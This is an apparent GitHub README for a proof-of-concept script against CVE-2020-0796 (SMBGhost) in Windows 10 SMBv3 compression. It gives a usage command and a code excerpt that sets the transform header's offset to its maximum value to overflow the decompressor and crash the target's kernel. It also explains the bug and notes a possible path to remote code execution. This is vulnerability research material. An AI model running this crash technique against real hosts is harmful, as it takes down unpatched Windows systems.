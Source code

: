 # CVE-2020-0796 PoC aka CoronaBlue aka SMBGhost

## Usage

`./CVE-2020-0796.py servername`

This script connects to the target host, and compresses the authentication request with a bad offset field set in the transformation header, causing the decompressor to buffer overflow and crash the target.

This contains a modification of the excellent [smbprotocol](https://github.com/jborean93/smbprotocol) with added support for SMB 3.1.1 compression/decompression (only LZNT1). Most of the additions are in `smbprotocol/connection.py`. A version of [lznt1](https://github.com/you0708/lznt1) is included, modified to support Python 3.

The compression transform header is in the `SMB2CompressionTransformHeader` class there. The function `_compress` is called to compress tree requests. This is where the offset field is set all high to trigger the crash.

```python
    def _compress(self, b_data, session):
        header = SMB2CompressionTransformHeader()
        header['original_size'] = len(b_data)
        header['offset'] = 4294967295
        header['data'] = smbprotocol.lznt1.compress(b_data)
```

## About

CVE-2020-0796 is a bug in Windows 10 1903/1909's new SMB3 compression capability. SMB protocol version 3.1.1 introduces the ability for a client or server to advertise compression cabilities, and to selectively compress SMB3 messages as beneficial. To accomplish this, when negotiating an SMB session, the client and server must both include a `SMB2_COMPRESSION_CAPABILITIES` as documented in [MS-SMB2 2.2.3.1.3](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/78e0c942-ab41-472b-b117-4a95ebe88271).

Once a session is negotiated with this capability, either the client or the server can selectively compress certain SMB messages. To do so, the entire SMB packet is compressed, and a transformed header is prepended, as documented in [MS-SMB2 2.2.42](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/1d435f21-9a21-4f4c-828e-624a176cf2a0). This header is a small (16 bytes) structure with a magic value, the uncompressed data size, the compression algorithm used, and an offset value.

CVE-2020-0796 is caused by a lack of bounds checking in that offset size, which is directly passed to several subroutines. Passing a large value in will cause a buffer overflow, and crash the kernel. With further work, this could be developed into a RCE exploit.
